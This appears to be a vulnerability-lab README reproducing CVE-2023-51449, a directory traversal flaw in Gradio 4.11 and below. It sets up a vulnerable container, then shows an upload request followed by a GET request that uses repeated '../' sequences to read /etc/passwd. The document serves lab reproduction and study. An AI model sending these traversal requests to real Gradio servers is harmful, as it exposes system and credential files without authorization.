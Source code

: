 # Gradio `file` Directory Traversal Vulnerability (CVE-2023-51449)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library for creating interactive interfaces for machine learning models. With Gradio, you can quickly build a visual, easy-to-use web interface for your model without writing any front-end code.

Gradio 4.11 and below, when authentication is not enabled, you can use a public URL to access any file on the machine running the Gradio application if you know the file path to find (for example, if the demo was created with `share=True` or on Hugging Face Spaces).

Reference Links:

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## Environment setup

Execute the following command to start an application written by Gradio 4.10.0:

```
docker compose up -d
```

After successful startup, there is no authentication by default.

```
http://your-ip:7860
```

## Vulnerability reproduction

Use the upload interface to upload any file, and you need to obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```

![](1.png)

After getting an accessible file path, use the file interface to access it and use directory traversal to read the file, and it can be read successfully.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```

![](2.png)
